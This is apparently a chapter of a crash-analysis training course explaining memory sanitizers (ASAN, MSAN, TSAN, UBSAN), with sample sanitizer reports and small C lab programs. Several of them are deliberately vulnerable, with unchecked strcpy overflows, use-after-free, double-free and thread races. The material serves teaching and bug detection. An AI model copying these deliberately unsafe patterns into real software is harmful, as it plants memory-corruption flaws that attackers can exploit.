**What is ASAN?**:

- Compiler instrumentation tool for detecting memory errors
- Inserts runtime checks around memory operations
- Uses "shadow memory" to track allocation state
- Detects: buffer overflows, UAF, double-free, memory leaks, and more

**How It Works**:

1. **Shadow Memory**: 1 shadow byte tracks 8 bytes of application memory
2. **Red Zones**: Poisoned memory surrounding allocations
3. **Quarantine**: Freed memory held before reuse to catch UAF
4. **Stack Instrumentation**: Red zones around stack variables

# Compile with ASAN (using vulnerable_suite.c from Day 1)
clang -g -O1 -fsanitize=address -fno-omit-frame-pointer src/vulnerable_suite.c -o vuln_asan

# Enable symbolization
export ASAN_SYMBOLIZER_PATH=$(command -v llvm-symbolizer)
export ASAN_OPTIONS="abort_on_error=1:symbolize=1:detect_leaks=1:disable_coredump=0"
export UBSAN_OPTIONS="print_stacktrace=1:halt_on_error=1"

# Run and observe detailed error report (test case 3 = UAF)
./vuln_asan 3
```

**With GCC**:

```bash

# GCC also supports ASAN
cd ~/crash_analysis_lab
gcc -g -O1 -fsanitize=address -fno-omit-frame-pointer -D_FORTIFY_SOURCE=0 src/vulnerable_suite.c -o vuln_asan1

# Run with same environment variables (test case 1 = stack overflow)
./vuln_asan1 1 $(python3 -c "print('A'*200)")
```

#### ASAN Error Types and Reports

**1. Heap Buffer Overflow**:

**Vulnerable Code**:

```c
// ~/crash_analysis_lab/src/heap.c
#include <stdlib.h>
#include <string.h>

int main() {
    char *buf = malloc(10);
    strcpy(buf, "This is too long!");  // Overflow!
    free(buf);
    return 0;
}
```

```bash
cd ~/crash_analysis_lab
gcc -g -O0 -fsanitize=address -fno-omit-frame-pointer -D_FORTIFY_SOURCE=0 src/heap.c -o heap
./heap
```

**ASAN Report**:

```text
==1330==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x50200000001a at pc 0x773226afb303 bp 0x7ffdf29dd780 sp 0x7ffdf29dcf28
WRITE of size 18 at 0x50200000001a thread T0
    #0 0x773226afb302 in memcpy ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors_memintrinsics.inc:115
    #1 0x5ac25166523d in main src/heap.c:6
    #2 0x77322662a1c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #3 0x77322662a28a in __libc_start_main_impl ../csu/libc-start.c:360
    #4 0x5ac251665144 in _start (/home/dev/crash_analysis_lab/heap+0x1144) (BuildId: 060cf895aa12e860df15a930f5880bac28c424b2)
0x50200000001a is located 0 bytes after 10-byte region [0x502000000010,0x50200000001a)
allocated by thread T0 here:
    #1 0x5ac25166521e in main src/heap.c:5
    #2 0x77322662a1c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #3 0x77322662a28a in __libc_start_main_impl ../csu/libc-start.c:360
    #4 0x5ac251665144 in _start (/home/dev/crash_analysis_lab/heap+0x1144) (BuildId: 060cf895aa12e860df15a930f5880bac28c424b2)
SUMMARY: AddressSanitizer: heap-buffer-overflow ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors_memintrinsics.inc:115 in memcpy
Shadow bytes around the buggy address:
  0x501ffffffd80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501ffffffe00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501ffffffe80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501fffffff00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501fffffff80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x502000000000: fa fa 00[02]fa fa fa fa fa fa fa fa fa fa fa fa
  0x502000000080: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x502000000100: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x502000000180: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x502000000200: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x502000000280: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
```

**Shadow Memory Interpretation**:

- `fa` = heap redzone (poison bytes around allocations)
- `00` = 8 fully addressable bytes
- `02` = 2 more addressable bytes (totaling the 10-byte allocation)
- `[02]` bracket shows exactly where the overflow was detected

**Analysis**:

- **Error**: heap-buffer-overflow
- **Operation**: WRITE of size 18 (string "This is too long!" + null terminator)
- **Location**: heap.c:6 (strcpy transformed to memcpy)
- **Allocation**: 10-byte buffer allocated at line 5
- **Overflow**: 8 bytes past end of allocation (detected at byte 10)

**2. Stack Buffer Overflow**:

**Vulnerable Code**:

```c
// ~/crash_analysis_lab/src/stack.c
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[16];
    strcpy(buffer, input);  // No bounds check!
}

int main() {
    vulnerable_function("AAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    return 0;
}
```

```bash
gcc -g -O0 -fsanitize=address -fno-omit-frame-pointer -D_FORTIFY_SOURCE=0 src/stack.c -o stack
./stack
```

**ASAN Report**:

```text
==1349==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x732093f00030 at pc 0x7320964a7923 bp 0x7ffd05f3a950 sp 0x7ffd05f3a0f8
WRITE of size 29 at 0x732093f00030 thread T0
    #0 0x7320964a7922 in strcpy ../../../../src/libsanitizer/asan/asan_interceptors.cpp:563
    #1 0x5a7f7e0e52aa in vulnerable_function src/stack.c:5
    #2 0x5a7f7e0e5314 in main src/stack.c:9
    #3 0x73209602a1c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #4 0x73209602a28a in __libc_start_main_impl ../csu/libc-start.c:360
    #5 0x5a7f7e0e5144 in _start (/home/dev/crash_analysis_lab/stack+0x1144) (BuildId: 03503cc1bce726df73220dfdcbbb15bc88eceb61)

Address 0x732093f00030 is located in stack of thread T0 at offset 48 in frame
    #0 0x5a7f7e0e5218 in vulnerable_function src/stack.c:3

  This frame has 1 object(s):
    [32, 48) 'buffer' (line 4) <== Memory access at offset 48 overflows this variable
HINT: this may be a false positive if your program uses some custom stack unwind mechanism, swapcontext or vfork
      (longjmp and C++ exceptions *are* supported)
SUMMARY: AddressSanitizer: stack-buffer-overflow ../../../../src/libsanitizer/asan/asan_interceptors.cpp:563 in strcpy
Shadow bytes around the buggy address:
  0x732093effd80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x732093effe00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x732093effe80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x732093efff00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x732093efff80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x732093f00000: f1 f1 f1 f1 00 00[f3]f3 00 00 00 00 00 00 00 00

```

**Analysis**:

- **Error**: stack-buffer-overflow
- **Operation**: WRITE of size 29 (28 'A' characters + null terminator)
- **Location**: stack.c:5 (strcpy in vulnerable_function)
- **Buffer**: 16-byte buffer 'buffer' at stack frame offset [32, 48)
- **Overflow**: 13 bytes past end of allocation (access at offset 48, buffer ends at 48)
- **Shadow byte `f1`**: Stack left redzone
- **Shadow byte `f3`**: Stack right redzone (where overflow was detected)

**3. Use-After-Free**:

**Vulnerable Code**:

```c
// ~/crash_analysis_lab/src/uaf.c
#include <stdlib.h>

int main() {
    int *ptr = malloc(sizeof(int));
    *ptr = 42;
    free(ptr);
    *ptr = 43;  // UAF!
    return 0;
}
```

```bash
gcc -g -O0 -fsanitize=address -fno-omit-frame-pointer -D_FORTIFY_SOURCE=0 src/uaf.c -o uaf
./uaf
```

**ASAN Report**:

```text
==1371==ERROR: AddressSanitizer: heap-use-after-free on address 0x502000000010 at pc 0x59df62e93267 bp 0x7ffe0df212f0 sp 0x7ffe0df212e0
WRITE of size 4 at 0x502000000010 thread T0
    #0 0x59df62e93266 in main src/uaf.c:8
    #1 0x7c6892c2a1c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #2 0x7c6892c2a28a in __libc_start_main_impl ../csu/libc-start.c:360
    #3 0x59df62e93104 in _start (/home/dev/crash_analysis_lab/uaf+0x1104) (BuildId: c4ef3acea8680ee4593d16ce8307652cb859190c)

0x502000000010 is located 0 bytes inside of 4-byte region [0x502000000010,0x502000000014)
freed by thread T0 here:
    #0 0x7c68930fc4d8 in free ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:52
    #1 0x59df62e9322f in main src/uaf.c:7
    #2 0x7c6892c2a1c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #3 0x7c6892c2a28a in __libc_start_main_impl ../csu/libc-start.c:360
    #4 0x59df62e93104 in _start (/home/dev/crash_analysis_lab/uaf+0x1104) (BuildId: c4ef3acea8680ee4593d16ce8307652cb859190c)

previously allocated by thread T0 here:
    #0 0x7c68930fd9c7 in malloc ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:69
    #1 0x59df62e931de in main src/uaf.c:5
    #2 0x7c6892c2a1c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #3 0x7c6892c2a28a in __libc_start_main_impl ../csu/libc-start.c:360
    #4 0x59df62e93104 in _start (/home/dev/crash_analysis_lab/uaf+0x1104) (BuildId: c4ef3acea8680ee4593d16ce8307652cb859190c)

SUMMARY: AddressSanitizer: heap-use-after-free src/uaf.c:8 in main
Shadow bytes around the buggy address:
  0x501ffffffd80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501ffffffe00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501ffffffe80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501fffffff00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x501fffffff80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x502000000000: fa fa[fd]fa fa fa fa fa fa fa fa fa fa fa fa fa
```

**Analysis**:

- **Error**: heap-use-after-free
- **Operation**: WRITE of size 4 (writing int value 43)
- **Location**: uaf.c:8 (assignment `*ptr = 43`)
- **Allocation**: 4-byte region allocated at line 5
- **Free**: Memory freed at line 7
- **Use**: Dangling pointer write at line 8
- **Shadow byte `fd`**: Freed heap memory (quarantined by ASAN)

**4. Double-Free**:

**Vulnerable Code**:

```c
// ~/crash_analysis_lab/src/df.c
#include <stdlib.h>

int main() {
    char *ptr = malloc(10);
    free(ptr);
    free(ptr);  // Double-free!
    return 0;
}
```

```bash
gcc -g -O0 -fsanitize=address -fno-omit-frame-pointer -D_FORTIFY_SOURCE=0 src/df.c -o df
./df
```

**ASAN Report**:

```text
=================================================================
==1388==ERROR: AddressSanitizer: attempting double-free on 0x502000000010 in thread T0:
    #0 0x71e78a6fc4d8 in free ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:52
    #1 0x651975eaa1da in main src/df.c:7
    #2 0x71e78a22a1c9 in __libc_st
[... truncated for digest; original source remains in the source folder ...]

# Common ASAN options
export ASAN_OPTIONS="symbolize=1:abort_on_error=1:detect_leaks=1:detect_stack_use_after_return=1:check_initialization_order=1:strict_init_order=1:allocator_may_return_null=1"

# Generate detailed logs
export ASAN_OPTIONS="symbolize=1:log_path=asan.log:log_exe_name=1"

# Suppress specific errors
export ASAN_OPTIONS="suppressions=asan_suppressions.txt"
```

**Suppression File Example** (asan_suppressions.txt):

```text

# Suppress known false positives
leak:known_leak_function
heap-buffer-overflow:third_party_library
```

### Comparing ASAN with Traditional Debugging

**ASAN Advantages**:

- Detects errors at point of occurrence (not later crash)
- Provides exact allocation/free stack traces
- Catches leaks without explicit testing
- Red zones catch off-by-one errors
- Quarantine catches some UAF that might not crash

**Limitations**:

- Performance overhead limits production use
- Doesn't catch all logic bugs
- Can miss non-deterministic races
- Requires recompilation

**When to Use Each**:

- **ASAN**: During development and fuzzing for comprehensive testing
- **Traditional debugging**: Production crashes, reverse engineering binaries
- **Both**: Reproduce ASAN-found bug in debugger for detailed analysis

### When ASAN Changes Behavior

> [!WARNING]
> ASAN modifies heap layout and timing.
> A bug that crashes reliably under ASAN may behave completely differently (or not manifest at all) in a non-ASAN build.
> Always reproduce important bugs in both configurations.

**Why ASAN Changes Crash Behavior**:

1. **Heap Layout Changes**:
   - ASAN adds red zones (padding) around allocations
   - Allocation sizes are rounded up
   - Heap addresses are completely different
   - Adjacent allocations that would overlap in normal builds are separated

2. **Quarantine Effects**:
   - Freed memory is held in quarantine before reuse
   - UAF bugs may "disappear" because memory isn't immediately reallocated
   - Without ASAN, freed memory may be immediately reused

3. **Timing Differences**:
   - ASAN instrumentation adds overhead
   - Race conditions may hide or manifest differently
   - Callback timing changes

#### Mini-Lab: Same Bug, Different Manifestation

**uaf_timing.c** - Demonstrates how UAF behavior differs with/without ASAN:

```c
// ~/crash_analysis_lab/src/uaf_timing.c - UAF that behaves differently with ASAN
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    // Allocate object
    char* victim = malloc(32);
    strcpy(victim, "ORIGINAL_DATA");
    printf("[1] Allocated victim at %p: %s\n", victim, victim);

    // Free it
    free(victim);
    printf("[2] Freed victim\n");

    // Allocate something else (may reuse the slot without ASAN)
    char* other = malloc(32);
    strcpy(other, "REPLACED!!!!!");
    printf("[3] Allocated other at %p: %s\n", other, other);

    // USE AFTER FREE - read victim
    printf("[4] UAF read of victim: %s\n", victim);

    // The output differs dramatically:
    // Without ASAN: May print "REPLACED!!!!!" (memory reused)
    // With ASAN:    Crashes immediately at the UAF read

    free(other);
    return 0;
}
```

**Exercise**:

```bash
cd ~/crash_analysis_lab

# Build without ASAN
gcc -g -O0 -fno-omit-frame-pointer src/uaf_timing.c -o uaf_normal

# Build with ASAN
gcc -g -O0 -fsanitize=address -fno-omit-frame-pointer -D_FORTIFY_SOURCE=0 src/uaf_timing.c -o uaf_asan

# ==1443==ERROR: AddressSanitizer: heap-use-after-free on address 0x503000000040 at pc 0x746dd12a1a6a # bp 0x7fff339b5190 sp 0x7fff339b4908

# ... ASAN report with allocation/free stacks ...
```

**Key Observations**:

1. Without ASAN: `malloc()` immediately reused the freed slot
2. With ASAN: Quarantine prevents reuse; UAF is detected
3. The "bug" exists in both builds, but only ASAN catches it

# Disable quarantine entirely (behaves more like non-ASAN)
export ASAN_OPTIONS="quarantine_size_mb=0"
./uaf_asan

# Increase quarantine (hold freed memory longer)
export ASAN_OPTIONS="quarantine_size_mb=256"
./uaf_asan

# Default is usually 256MB - check with:
export ASAN_OPTIONS="verbosity=1"
./uaf_asan 2>&1 | grep quarantine
```

# 2. ALWAYS reproduce without ASAN
./target_normal < crash_input 2>&1 | tee normal_report.txt

# 3. Compare behaviors
echo "=== ASAN Behavior ===" && head -20 asan_report.txt
echo "=== Normal Behavior ===" && head -20 normal_report.txt

### Other Sanitizers

- While AddressSanitizer (ASAN) is the most widely-used sanitizer for spatial memory safety, the LLVM sanitizer family includes several complementary tools that detect different bug classes.
- Understanding when to use each sanitizer—and which ones can be combined—is essential for comprehensive testing.

#### MemorySanitizer (MSAN): Detecting Uninitialized Memory

**What MSAN Detects**:

- Use of uninitialized memory
- Uninitialized variables passed to functions
- Uninitialized memory in conditionals
- Propagation of uninitialized data

**Compilation**:

```bash

# Compile with MSAN
clang -fsanitize=memory -fPIE -pie -fno-omit-frame-pointer -g -O0 program.c -o program_msan

# On Ubuntu with custom-built libc++:
clang -fsanitize=memory -stdlib=libc++ -fPIE -pie -g -O0 program.c -o program_msan
```

**Installing libc++ for MSAN from apt.llvm.org** (Optional but recommended):

MSAN works best with an instrumented libc++. Without it, you may get false positives from uninstrumented stdlib calls. The LLVM project provides pre-built libc++ packages via [apt.llvm.org](https://apt.llvm.org/).

```bash
sudo apt-get update
sudo apt-get install -y wget lsb-release software-properties-common gnupg

# install llvm if you haven't already

sudo apt-get install -y \
    libc++-19-dev \
    libc++abi-19-dev
```

**Example MSAN Detection**:

```c
// ~/crash_analysis_lab/src/msan.c
#include <stdio.h>

int main() {
    int x;  // Uninitialized!
    if (x > 10) {  // Reading uninitialized memory
        printf("x is large\n");
    }
    return 0;
}
```

```bash
cd ~/crash_analysis_lab
clang++-19 -fsanitize=memory -stdlib=libc++ -o msan src/msan.c
./msan
```

**MSAN Report**:

```text
==2329==WARNING: MemorySanitizer: use-of-uninitialized-value
    #0 0x555555621d01 in main (/home/dev/crash_analysis_lab/msan+0xcdd01) (BuildId: a1bfcfbc905803f4547f0977c2e647e8f076e8a8)
    #1 0x7ffff7a2a1c9 in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #2 0x7ffff7a2a28a in __libc_start_main csu/../csu/libc-start.c:360:3
    #3 0x5555555862f4 in _start (/home/dev/crash_analysis_lab/msan+0x322f4) (BuildId: a1bfcfbc905803f4547f0977c2e647e8f076e8a8)

SUMMARY: MemorySanitizer: use-of-uninitialized-value (/home/dev/crash_analysis_lab/msan+0xcdd01) (BuildId: a1bfcfbc905803f4547f0977c2e647e8f076e8a8) in main
Exiting
```

**When to Use MSAN**:

- Logic errors from uninitialized variables
- Information leaks via uninitialized stack/heap data
- Parser bugs that rely on uninitialized state
- Kernel-style code sensitive to info leaks

#### ThreadSanitizer (TSAN): Detecting Data Races

**What TSAN Detects**:

- Data races between threads
- Unsynchronized memory accesses
- Use-after-free in multithreaded contexts
- Deadlocks
- Lock order violations

**Example TSAN Detection**:

```c
// ~/crash_analysis_lab/src/tsan.c
#include <pthread.h>
#include <stdio.h>

int shared_variable = 0;

void* thread_func(void* arg) {
    shared_variable++;  // Race condition!
    return NULL;
}

int main() {
    pthread_t t1, t2;
    pthread_create(&t1, NULL, thread_func, NULL);
    pthread_create(&t2, NULL, thread_func, NULL);
    pthread_join(t1, NULL);
    pthread_join(t2, NULL);
    printf("Result: %d\n", shared_variable);
    return 0;
}
```

**Compilation**:

```bash
gcc -fsanitize=thread -g -O0 -fno-omit-frame-pointer src/tsan.c -o tsan -lpthread
setarch $(uname -m) -R ./tsan
```

**TSAN Report**:

```text
==================
WARNING: ThreadSanitizer: data race (pid=10025)
  Read of size 4 at 0x555555558014 by thread T2:
    #0 thread_func src/tsan.c:7 (tsan+0x1294) (BuildId: 44799b6c3e78781b5904ab4054a54211be4ffe7d)

  Previous write of size 4 at 0x555555558014 by thread T1:
    #0 thread_func src/tsan.c:7 (tsan+0x12ac) (BuildId: 44799b6c3e78781b5904ab4054a54211be4ffe7d)

  Location is global 'shared_variable' of size 4 at 0x555555558014 (tsan+0x4014)

  Thread T2 (tid=10028, running) created by main thread at:
    #0 pthread_create ../../../../src/libsanitizer/tsan/tsan_interceptors_posix.cpp:1022 (libtsan.so.2+0x5ac1a) (BuildId: 38097064631f7912bd33117a9c83d08b42e15571)
    #1 main src/tsan.c:14 (tsan+0x1327) (BuildId: 44799b6c3e78781b5904ab4054a54211be4ffe7d)

  Thread T1 (tid=10027, finished) created by main thread at:
    #0 pthread_create ../../../../src/libsanitizer/tsan/tsan_interceptors_posix.cpp:1022 (libtsan.so.2+0x5ac1a) (BuildId: 38097064631f7912bd33117a9c83d08b42e15571)
    #1 main src/tsan.c:13 (tsan+0x130a) (BuildId: 44799b6c3e78781b5904ab4054a54211be4ffe7d)

SUMMARY: ThreadSanitizer: data race src/tsan.c:7 in thread_func
==================
Result: 2
ThreadSanitizer: reported 1 warnings
```

**When to Use TSAN**:

- Multithreaded applications
- Server software with concurrent request handling
- Race condition vulnerabilities
- Non-deterministic crashes
- Lock-free data structures

#### Lab Target: Multithreaded UAF

**race_uaf.c** - A race condition leading to use-after-free:

```c
// ~/crash_analysis_lab/src/race_uaf.c - Thread race causes UAF
#include <pthread.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

typedef struct {
    char* data;
    int active;
} Resource;

Resource* global_resource = NULL;

void* writer_thread(void* arg) {
    for (int i = 0; i < 1000; i++) {
        if (global_resource && global_resource->active) {
            // RACE: Resource may be freed between check and use
            strcpy(global_resource->data, "Updated by writer");
        }
        usleep(100);
    }
    return NULL;
}

void* destroyer_thread(void* arg) {
    for (int i = 0; i < 100; i++) {
        usleep(1000);

        if (global_resource) {
            // RACE: Writer may be using data when we free it
            global_resource->active = 0;
            free(global_resource->data);  // UAF source!
            global_resource->data = NULL;

            // Reallocate
            global_resource->data = malloc(64);
            global_resource->active = 1;
        }
    }
    return NULL;
}

int main() {
    // Initialize resource
    global_resource = malloc(sizeof(Resource));
    global_resource->data = malloc(64);
    global_resource->active = 1;
    strcpy(global_resource->data, "Initial data");

    pthread_t writer, destroyer;
    pthread_create(&writer, NULL, writer_thread, NULL);
    pthread_create(&destroyer, NULL, destroyer_thread, NULL);

    pthread_join(writer, NULL);
    pthread_join(destroyer, NULL);

    free(global_resource->data);
    free(global_resource);
    return 0;
}
```

#### Exercise Part 1: Reproduce with TSAN

```bash
gcc -fsanitize=thread -g -O0 -fno-omit-frame-pointer src/race_uaf.c -o race_uaf -lpthread
setarch $(uname -m) -R ./race_uaf
```

#### Exercise Part 2: Detect Races with Helgrind

TSAN detects the race, but Helgrind (part of Valgrind) provides more detailed analysis and works in VMs without hardware PMU support:

```bash
cd ~/crash_analysis_lab

# Build normally (without TSAN - for Helgrind analysis)
clang -g -O0 -fno-omit-frame-pointer src/race_uaf.c -o race_normal -lpthread

# Run with Helgrind - detects races without needing a crash
valgrind --tool=helgrind ./race_normal

# For more detailed history (slower but more accurate)
valgrind --tool=helgrind --history-level=full ./race_normal

# Alternative: DRD (another Valgrind thread checker, sometimes catches different issues)
valgrind --tool=drd ./race_normal
```

**Sample Helgrind Output:**

```
==1124== Possible data race during write of size 4 at 0x4A8B048 by thread #3
==1124== Locks held: none
==1124==    at 0x10924C: destroyer_thread (src/race_uaf.c:32)
==1124==
==1124== This conflicts with a previous read of size 4 by thread #2
==1124== Locks held: none
==1124==    at 0x1091C5: writer_thread (src/race_uaf.c:17)
==1124==  Address 0x4a8b048 is 8 bytes inside a block of size 16 alloc'd
==1124==    at 0x48488A8: malloc
==1124==    by 0x1092C8: main (src/race_uaf.c:46)
```

Helgrind shows:

- Which threads are racing (thread #2 vs #3)
- Exact source locations (line 32 vs line 17)
- The memory address and allocation origin
- That no locks were held during access

#### Exercise Part 3: Analyze the Race Conditions

Use Helgrind output to answer these questions:

1. **What data is being raced on?**

   Look for "Possible data race" messages - they show the address and what allocated it:

   ```
   Address 0x4a8b048 is 8 bytes inside a block of size 16 alloc'd
      by main (src/race_uaf.c:46)
   ```

2. **Which threads are involved?**

   Helgrind announces threads and shows their creation stack:

   ```
   Thread #3 was created
      at pthread_create
      by main (src/race_uaf.c:53)
   ```

3. **What's the UAF pattern?**

   Look for races where one thread writes/frees while another reads:

   ```
   # Thread 3 (destroyer) writes to data->active
   destroyer_thread (src/race_uaf.c:32)

   # Thread 2 (writer) reads data->active
   writer_thread (src/race_uaf.c:17)
   ```

4. **Identify the strcpy UAF:**
   ```
   Possible data race during write of size 1 at 0x4A8B090 by thread #2
      at strcpy
      by writer_thread (src/race_uaf.c:19)
   Address 0x4a8b090 is 0 bytes inside a block of size 64 alloc'd
      by destroyer_thread (src/race_uaf.c:37)  # <-- reallocated after free!
   ```

#### Lab Deliverables

1. **TSAN report** showing the detected race
2. **valgrind helgrind** command that reproduces the crash
3. **Interleaving description**: Which thread did what, in what order
4. **Root cause**: One paragraph explaining the bug

**Success Criteria**:

- Can detect race with TSAN
- Can reproduce race with valgrind
- Can explain the thread interleaving that causes the bug
- Understand why normal runs often don't crash

### UndefinedBehaviorSanitizer (UBSAN): Catching Undefined Behavior

**What UBSAN Detects**:

- Integer overflow (signed)
- Division by zero
- Null pointer dereference
- Misaligned pointer access
- Array bounds violations (with bounds checking)
- Type confusion (via vptr checks)
- Shifts by invalid amounts

**Example UBSAN Detection**:

```c
// ~/crash_analysis_lab/src/ubsan.c
#include <stdio.h>
#include <limits.h>

int main() {
    int x = INT_MAX;
    x++;  // Signed integer overflow
    printf("x = %d\n", x);

    int y = 5;
    int z = y / 0;  // Division by zero

    return 0;
}
```

**Compilation**:

```bash

# Compile with UBSAN (all checks)
clang -fsanitize=undefined -g -O0 -fno-omit-frame-pointer src/ubsan.c -o ubsan

# Compile with specific checks
clang -fsanitize=signed-integer-overflow,bounds -g -O0 -fno-omit-frame-pointer src/ubsan.c -o ubsan1

# Abort on first error (no recovery)
clang -fsanitize=undefined -fno-sanitize-recover=undefined -g -O0 -fno-omit-frame-pointer src/ubsan.c -o ubsan2
```

**Compiler Warning** (at compile time):

```text
src/ubsan.c:11:15: warning: division by zero is undefined [-Wdivision-by-zero]
   11 |     int z = y / 0;  // Division by zero
      |               ^ ~
1 warning generated.
```

**UBSAN Runtime Report**:

```bash

# Run with halt_on_error=0 to see all errors (otherwise aborts on first)
$ UBSAN_OPTIONS=halt_on_error=0 ./ubsan
```

```text
src/ubsan.c:7:6: runtime error: signed integer overflow: 2147483647 + 1 cannot be represented in type 'int'
SUMMARY: UndefinedBehaviorSanitizer: undefined-behavior src/ubsan.c:7:6
x = -2147483648
src/ubsan.c:11:15: runtime error: division by zero
SUMMARY: UndefinedBehaviorSanitizer: undefined-behavior src/ubsan.c:11:15
UndefinedBehaviorSanitizer:DEADLYSIGNAL
==1189==ERROR: UndefinedBehaviorSanitizer: FPE on unknown address 0x5555b6f99873 (pc 0x5555b6f99873 bp 0x7ffe6cee6130 sp 0x7ffe6cee6110 T1189)
    #0 0x5555b6f99873 in main /home/dev/crash_analysis_lab/src/ubsan.c:11:15
    #1 0x73ccf2e2a1c9 in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #2 0x73ccf2e2a28a in __libc_start_main csu/../csu/libc-start.c:360:3
    #3 0x5555b6f6f3e4 in _start (/home/dev/crash_analysis_lab/ubsan+0x53e4)
UndefinedBehaviorSanitizer can not provide additional info.
SUMMARY: UndefinedBehaviorSanitizer: FPE /home/dev/crash_analysis_lab/src/ubsan.c:11:15 in main
==1189==ABORTING
```

**Key Observations**:

- **Integer overflow** (line 7): Detected and recoverable — execution continues, showing wrapped value `-2147483648`
- **Division by zero** (line 11): Detected but fatal — CPU raises `SIGFPE` (Floating Point Exception), program aborts regardless of `halt_on_error` setting
- Without `halt_on_error=0`, UBSAN aborts on the first error (integer overflow)

**When to Use UBSAN**:

- Integer overflow vulnerabilities
- Arithmetic bugs in parsers
- Type confusion detection
- Undefined behavior that doesn't crash immediately
- Hardening development builds

# ASAN + UBSAN (Recommended for general fuzzing)
clang -fsanitize=address,undefined -g -O0 -fno-omit-frame-pointer -D_FORTIFY_SOURCE=0 src/ubsan.c -o asan_ubsan

# ASAN + UBSAN + leak detection
clang -fsanitize=address,undefined -g -O0 -fno-omit-frame-pointer -D_FORTIFY_SOURCE=0 src/ubsan.c -o asan_ubsan_leak
export ASAN_OPTIONS=detect_leaks=1

# Note: MSAN requires instrumented libc++, use clang++ with -stdlib=libc++
clang++-19 -fsanitize=memory,undefined -stdlib=libc++ -fPIE -pie -g -O0 -fno-omit-frame-pointer src/ubsan.c -o msan_ubsan
```

**Running Combined Sanitizers**:

```bash

# ASAN + UBSAN catches both memory errors and undefined behavior
$ UBSAN_OPTIONS=halt_on_error=0 ./asan_ubsan
src/ubsan.c:7:6: runtime error: signed integer overflow: 2147483647 + 1 cannot be represented in type 'int'
SUMMARY: UndefinedBehaviorSanitizer: undefined-behavior src/ubsan.c:7:6
x = -2147483648
src/ubsan.c:11:15: runtime error: division by zero
SUMMARY: UndefinedBehaviorSanitizer: undefined-behavior src/ubsan.c:11:15
UndefinedBehaviorSanitizer:DEADLYSIGNAL
...
```

**Incompatible Combinations** (Cannot Use Together):

| Combination | Reason                                          |
| ----------- | ----------------------------------------------- |
| ASAN + MSAN | Both use shadow memory with conflicting layouts |
| ASAN + TSAN | Conflicting instrumentation and memory tracking |
| MSAN + TSAN | Conflicting instrumentation                     |

**Combination Best Practices**:

1. **Default Fuzzing Setup**: ASAN + UBSAN
   - Catches most memory corruption + arithmetic errors
   - Good performance trade-off (~2x slowdown)
   - Use: `clang -fsanitize=address,undefined ...`

2. **Dedicated MSAN Run**: Separate build with MSAN + UBSAN
   - Run periodically to catch uninitialized memory
   - Requires instrumented libc++ (`clang++ -stdlib=libc++`)
   - Cannot combine with ASAN

3. **Dedicated TSAN Run**: For multithreaded targets
   - Run separate TSAN build (cannot combine with ASAN/MSAN)
   - Higher overhead (~5-15x slowdown)
   - Use: `gcc -fsanitize=thread -lpthread ...`

### Performance Comparison

| Sanitizer      | CPU Overhead | Memory Overhead | Use Case                                   |
| -------------- | ------------ | --------------- | ------------------------------------------ |
| **ASAN**       | ~2x          | 2-3x            | Spatial memory safety (overflow, UAF)      |
| **MSAN**       | ~3x          | 2-3x            | Uninitialized memory reads                 |
| **TSAN**       | 5-15x        | 5-10x           | Data races in multithreaded code           |
| **UBSAN**      | ~1.2x        | Minimal         | Undefined behavior (overflow, div-by-zero) |
| **ASAN+UBSAN** | ~2.2x        | 2-3x            | Combined memory + arithmetic bugs          |

**Performance Notes**:

- ASAN overhead is predictable and acceptable for fuzzing
- TSAN overhead makes it impractical for long fuzzing campaigns
- UBSAN adds minimal overhead—almost always worth enabling
- MSAN requires instrumented standard library for full effectiveness

### Advanced Sanitizers (Brief Overview)

Several newer sanitizer technologies address ASAN's limitations. These are covered in depth in later weeks but are important to know about for crash analysis:

**HWASan (Hardware-assisted AddressSanitizer)**:

- Uses ARM64 Top Byte Ignore (TBI) feature for memory tagging
- ~2x overhead vs ASAN's ~2x (similar), but uses only ~15% more memory vs ASAN's 2-3x
- Essential for Android/ARM64 crash analysis
- Detects same bug classes as ASAN with better memory efficiency

**MTE (Memory Tagging Extension)**:

- ARM hardware feature (ARMv8.5+, e.g., Pixel 8, server ARM64)
- Near-zero overhead memory safety in production
